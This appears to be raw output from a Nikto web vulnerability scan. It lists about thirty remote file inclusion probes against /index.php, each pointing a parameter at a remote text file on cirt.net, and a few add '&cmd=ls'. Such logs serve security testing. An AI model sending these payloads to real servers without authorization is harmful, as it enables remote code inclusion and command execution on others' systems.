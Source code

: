 ```
+ OSVDB-5292: GET /index.php?fileloc=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?from=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?func=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?function=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?function=custom&custom=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?gOo=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?gen=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?get=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?home_Nikto=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?home_name=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?ilang=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?inc_dir=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?inc_dir=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?includeDir=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?includeFooter=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?includesdir=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?insPath=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?lang=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?language=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?language=en&main_page=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?lizge=http://cirt.net/rfiinc.txt??&cmd=ls: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?lng=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?load=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?loadpage=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?main_tabid=1&main_content=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?may=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?middle=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?mode=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?mode=http://cirt.net/rfiinc.txt??&cmd=: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?modpath=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?mosConfig_absolute_path=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
```